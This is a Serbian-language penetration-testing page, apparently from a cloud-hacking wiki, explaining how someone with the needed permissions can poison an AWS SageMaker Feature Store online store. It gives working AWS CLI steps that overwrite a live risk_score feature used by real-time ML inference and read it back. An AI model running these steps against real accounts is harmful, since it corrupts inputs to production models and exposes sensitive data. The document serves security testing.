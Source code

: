 # SageMaker Feature Store online store poisoning

Iskoristite `sagemaker:PutRecord` na Feature Group sa omogućenim OnlineStore da prepišete žive vrednosti feature-a koje koristi online inference. U kombinaciji sa `sagemaker:GetRecord`, napadač može pročitati osetljive feature vrednosti. Ovo ne zahteva pristup modelima ili endpoint-ima.

## Zahtevi
- Dozvole: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Cilj: Feature Group sa omogućenim OnlineStore (obično podržava real-time inference)

## Koraci
1) Izaberite ili napravite mali Online Feature Group za testiranje
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=ht-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
aws sagemaker create-feature-group --region $REGION --feature-group-name "$FG" --record-identifier-feature-name entity_id --event-time-feature-name event_time --feature-definitions "[{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"}]" --online-store-config "{\"EnableOnlineStore\":true}" --role-arn "$ROLE_ARN"
echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo $ST; [ "$ST" = "Created" ] && break; sleep 15
done
fi
```
2) Ubaci/prepiši online zapis (poison)
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)
cat > /tmp/put.json << JSON
{
"FeatureGroupName": "$FG",
"Record": [
{"FeatureName": "entity_id", "ValueAsString": "user-123"},
{"FeatureName": "event_time", "ValueAsString": "$NOW"},
{"FeatureName": "risk_score", "ValueAsString": "0.99"}
],
"TargetStores": ["OnlineStore"]
}
JSON
aws sagemaker-featurestore-runtime put-record --region $REGION --cli-input-json file:///tmp/put.json
```
3) Pročitajte zapis da biste potvrdili manipulaciju
```bash
aws sagemaker-featurestore-runtime get-record --region $REGION --feature-group-name "$FG" --record-identifier-value-as-string user-123 --feature-name risk_score --query "Record[0].ValueAsString"
```
Očekivano: risk_score returns 0.99 (attacker-set), dokazujući sposobnost promene online features koje koriste models.

## Uticaj
- Real-time integrity attack: manipuliše features koje koriste production models bez diranja endpoints/models.
- Rizik poverljivosti: čitanje osetljivih features putem GetRecord iz OnlineStore.

